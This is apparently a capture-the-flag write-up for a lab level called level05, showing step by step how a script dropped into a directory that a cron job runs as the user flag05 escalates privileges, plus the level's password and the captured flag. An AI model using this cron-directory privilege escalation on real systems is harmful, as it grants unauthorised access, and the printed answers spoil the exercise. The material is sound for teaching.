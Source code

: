 # level05

## Vulnerability: Wildcard trickery

level05's password: `ne2searoevaevoem4ov4ar8ap`

we got some intel from level00:

```shell
-rwxr-x---+ 1 flag05  flag05      94 Mar  5  2016 openarenaserver
/opt/openarenaserver
/usr/sbin/openarenaserver
/rofs/opt/openarenaserver
/rofs/usr/sbin/openarenaserver
```

1. examinate existing files and permissions

```shell
ls -la
ls -la /usr/sbin/openarenaserver
cat /usr/sbin/openarenaserver
```

shows a shell script that runs all scripts in `/opt/openarenaserver`, and that the process is running as flag05

2. create an exploit script

```shell
echo -e "getflag > /opt/openarenaserver/flag" > /opt/openarenaserver/exploit.sh
```

3. make it run as flag05 with flag05 script and crontab

```shell
crontab -e
* * * * * /opt/openarenaserver/exploit.sh
```

to execute exploit every minute

4. wait crontab's execution (next minute second 0) then pwn the flag

```shell
uptime
cat /opt/openarenaserver/flag
```

gives flag: `viuaaale9huek52boumoomioc`
